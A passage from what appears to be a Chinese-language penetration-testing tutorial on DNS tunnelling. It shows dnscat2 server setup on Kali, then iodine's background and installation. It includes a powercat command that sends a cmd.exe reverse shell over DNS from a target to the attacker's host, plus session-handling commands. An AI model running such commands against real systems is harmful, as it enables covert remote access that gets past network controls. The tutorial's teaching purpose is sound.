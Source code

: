 ### 建立 dns 隧道连接

powercat 的 dns 隧道是基于 dnscat 设计的，因此在服务端需要使用 dnscat 连接。

在服务端上安装 dnscat ，以 kali 为例

    
    
    git clone https://github.com/iagox86/dnscat2.git  
    cd dnscat2/server/  
    gem install bundler  
    bundle install

命令运行完之后，执行以下命令开启服务端

    
    
    ruby dnscat2.rb powercat -e open --no-cache

在靶机下，执行以下命令，建立 dns 隧道

    
    
    powercat -c 172.16.214.47 -p 53 -dns powercat -e cmd.exe

此时，在 kali 上就能看到回连的会话了

    
    
    sessions                #    查看所有会话  
    session -i 1         #    选择指定的会话进行交互

不过实测，虽然能返回会话，但不能执行命令，暂不清楚原因是什么。

powercat 暂时就记录这些，其他的比如文件传输什么的就不记了，毕竟使用频率几乎为零，平时使用最多的可能还是拿它来反弹 shell，不过为什么不用 CS
或者 MSF 呢，不更香嘛。

# 0x09 iodine 使用

## 1、介绍

iodine 这个名字起的很有意思，iodine 翻译过来就是碘，碘的原子序数为 53，53 也就是 DNS 服务对应的端口号。

iodine 和 dnscat2 一样，适合于其他请求方式被限制以至于只能发送 DNS 请求的环境中，iodine 同样也是分成了直接转发和中继两种模式。

iodine 与 dnscat2 不同的在于 Iodine 服务端和客户端都是用 C 语言开发，同时 iodine 的原理也有些不同，iodine 通过
TAP 在服务端和客户端分别建立一个局域网和虚拟网卡，再通过 DNS 隧道进行连接，然后使其处在同一个局域网中。

## 2、安装

首先需要有一个域名，并设置 NS 和 A 记录，A 记录指向自己的公网 VPS 地址，NS 记录指向 A 记录的子域名。

![](https://gitee.com/fuli009/images/raw/master/public/20211027204338.png)

Kali 下自带 iodine ，Debian Linux 可以使用 apt 进行安装

    
    
    sudo apt-get install iodine
